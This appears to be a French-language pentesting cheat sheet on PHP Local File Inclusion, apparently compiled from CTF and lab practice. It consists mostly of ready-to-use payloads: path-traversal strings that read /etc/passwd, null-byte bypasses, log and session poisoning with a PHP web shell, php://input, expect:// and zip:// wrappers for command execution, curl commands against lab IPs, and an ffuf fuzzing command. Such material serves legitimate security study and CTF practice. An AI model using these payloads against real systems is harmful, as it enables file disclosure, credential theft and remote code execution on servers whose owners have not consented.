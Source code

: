 # LFI Local File inclusion


## Methodologie

1. Read /etc/passwd and potentially find SSH Keys or know valid user names for a password spray attack
2. Find other services on the box such as Tomcat and read the tomcat-users.xml file
3. Discover valid PHP Session Cookies and perform session hijacking
4. Read current web application configuration and gain access to the secret used to protect cookies. In some frameworks, this cookie gets unserialized in an unsafe manner, and just reading the configuration can lead to remote code execution


## basic:

exemple

```txt
../../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
php://filter/read=/resource=/etc/passwd
```

## extention bypass:

exemple :

```txt
language=/etc/passwd%00
/etc/passwd\x00
```

## Alias mal configurés

Une mauvaise configuration entre "/dossier/" et "/dossier" peut donner accès à certains `path traversal`. exemple pour Nginx: 

```txt
http://site/assets../
```

Attention également aux erreurs de conf de la racine, par exemple si on a la directive `root /etc/nginx;` alors `/` renvoi vers `/etc/nginx` et on a accès a la conf du serveur !

## LFI to RCE:

exemple d'injection puis d'execution via les logs

```txt
http://134.209.184.216:32415/index.php?language=<?php system($_GET['cmd']); ?>
http://10.10.10.173/getPatent_alphav1.0.php?id=..././..././..././..././..././var/log/apache2/error.log&cmd=id
```

autres pistes :


```txt
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ (injection possible via “User-Agent” sur les vieux serveurs)
/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3 #la chaine de char correspond au cookie
/proc/self/fd/(brute force int)
```

### session poisoning: (faire les 2 requetes dans l'ordre)

```txt
http://134.209.184.216:32415/index.php?language=<?php system($_GET['cmd']); ?>
http://134.209.184.216:32415/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

exemple curl:

```txt
curl -s -X POST --data "<?php system('id'); ?>" "http://143.110.174.100:30453/index.php?language=php://input" |grep uid
curl http://10.10.10.151/blog/?lang=php://input -d '<? system('id');?>'
```


exemple CTF: 

```txt
http://10.10.10.173/getPatent_alphav1.0.php?id=..././..././..././..././..././etc/passwd
http://10.10.10.173/getPatent_alphav1.0.php?id=....//....//....//....//....//etc/passwd
http://165.232.47.168:30259/index.php?page=./industries 
http://165.232.47.168:30259/index.php?page=index 
http://165.232.47.168:30259/index.php?page=php://filter/read=convert.base64-encode/resource=index

user-agent (que l'on retrouve dans les logs)
user-agent: <?php system($_GET['cmd']); ?>
http://165.232.47.168:30272/ilf_admin/index.php?log=../../../../../var/log/nginx/access.log&cmd=id
```

exemple IIS:

```txt
http://10.10.10.151/blog/?lang=//localhost/c$/Windows/win.ini
```


autres exemples :

```txt
envoyer du code PHP dans les logs ou les mail puis executer le code via la LFI
http://10.10.10.173/getPatent_alphav1.0.php?id=..././..././..././..././..././var/log/apache2/error.log
```



| **Command** | **Description** |
| --------------|-------------------|
| `php://filter/read=convert.base64-encode/resource=/etc/passwd` | PHP filter to convert file contents to Base64 |
| `php://filter/read=string.rot13/resource=/etc/passwd`   | PHP filter to convert file contents to ROT13 |
| `expect://id` | Command execution with PHP `Expect` wrapper |
| `curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input"` | Using PHP `Input` wrapper for command execution |
| `zip://malicious.zip%23exec.php&cmd=id` | Command execution with the PHP `Zip` wrapper |
| `<?php system($_GET['cmd']); ?>` | PHP web shell file contents (i.e., shell.php) |


### Wrapper

à tester :  `http://`, `ftp://`, `https://` , `zip:`


pour aller plus loin:

```sh
ffuf -w ../SecLists-master/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt:FUZZ -u http://127.0.0.1:1080/nav.php?page=FUZZ -fs 0
```



